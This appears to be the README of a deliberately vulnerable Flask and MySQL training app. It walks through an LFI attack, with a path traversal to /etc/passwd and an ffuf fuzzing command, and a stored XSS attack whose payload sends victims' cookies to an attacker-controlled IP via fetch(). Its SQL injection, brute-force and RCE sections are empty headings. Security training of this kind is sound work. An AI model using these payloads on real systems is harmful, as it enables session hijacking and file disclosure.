




# vulnerable-WebApp

A deliberately vulnerable web application built with Flask, MySQL, and Docker.  
This project is designed for learning, practicing, and demonstrating common web security vulnerabilities and their mitigations in a realistic environment.

## 🚀 Quick Start

```bash
docker compose up -d
```

- The application will be available at: `http://127.0.0.1:8000` 

## 🔐 WebApp Design  
  
- There are currently **4 different ways** to gain access to a privileged account.  
- Once you have privileged access, there is **1 method** to achieve a reverse shell.  
- Below you will find explanations and solutions for all **5 vulnerabilities**.

## 🧪 Exploitation & Solutions

- the **4 different ways** are: `LFI`, `Stored XSS`, `User Enumeration + Brute Force` and `SQL Injection`

### SQL Injection: 
---


### LFI: 
---
> [!Tip]  
> The application might expose more files than intended. Try exploring common directories.

- on the home page you can see a **gallery preview** 
- if you press on one of the images, the image will open up in a bigger preview: 



- if you look at the `url` you can see that the `GET`-parameter: `view` is accepting input 
- if you now change the input to `../../../etc/passwd` you can see the content of the `passwd` file: 


- let's take a look at the / directory
- we can use `ffuf` to fuzz for files: 
```bash
ffuf -u http://127.0.0.1:8000/home?view=../../../FUZZ -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt -H "Cookie: session=<your current cookie>" -fs 11
```
- for the `wordlist` I used `raft-small-words.txt` from `Seclists` 
- `FUZZ` is replaced by entries from the wordlist to discover hidden files

```bash

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://127.0.0.1:8000/home?view=../../../FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt
 :: Header           : Cookie: session=eyJtb2RlIjoidW5zZWN1cmUiLCJyb2xlIjoiZ3Vlc3QifQ.adZzfg.mNLteZ0udpWeNtS3NYviWpz4LZA
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 11
________________________________________________

<Redacted>            [Status: 200, Size: 14, Words: 1, Lines: 2, Duration: 68ms]
```
- `ffuf` discovered a hidden file in the root directory  
- accessing this file reveals credentials for the admin account  
- this demonstrates how LFI can lead to sensitive data exposure

### Stored XSS: 
---
>[!Tip]
> Take a look at the contact form 

- Stored Cross-Site Scripting (XSS) occurs when user input is stored on the server and later displayed without proper sanitization 
- This allows attackers to inject JavaScript that executes in the browser of other users.

- on the home page there is a contact form 
- above the contact-form is a message telling the user, that messages are usually reviewed within a minute
- so we can assume that the message, that we are sending, gets stored in a database and gets displayed somewhere else on the website 
- so we could try `Stored XSS`
- to test it, we can try to put `JavaScript`-code into one of the three input tags and sent it 

- one possible payload for this, would be this: 
```html
<script>fetch('http://192.168.132.187:9000/?cookie=' + btoa(document.cookie));</script> 
```
- so lets imagine a staff member is responsible for reviewing the messages that gets sent from the contact-form 
- the payload uses `fetch()` to send the victim's cookie to an attacker-controlled server  
- `btoa()` is used to Base64-encode the cookie

- so first we have to start a `webserver`, to do this we can use `python`: 
```bash
python3 -m http.server 9000
```

- now we can craft our message in the contact-form: 

- you personally have to change the `IP` to your own adress
- now we have to wait one minute


- as we can see we got an request with the `cookie` from an staff member
- the `cookie` is currently `Base64` encoded, but we can decode it with: 
```bash
echo "c2Vzc2lvbj1leUp0YjJSbElqb2lkVzV6WldOMWNtVWlMQ0p5YjJ4bElqb2ljM1JoWm1ZaWZRLmFkVVM4dy5GcFRteWdnbm9LX18xeTd3NWJTeEtHaXJFLVE=" | base64 -d
```

```bash
session=<Redacted>
```
- now we can set this cookie in our browser and have priviliged access


### User Enumeration + Brute Force
---


- after you got access to an privileged account, there is an `RCE` vulnerabilities in the `Dashboard`

### RCE: 
---


## ⚠️ Disclaimer  
This project is intended for educational purposes only.  
Do not deploy it in production or expose it to the public internet.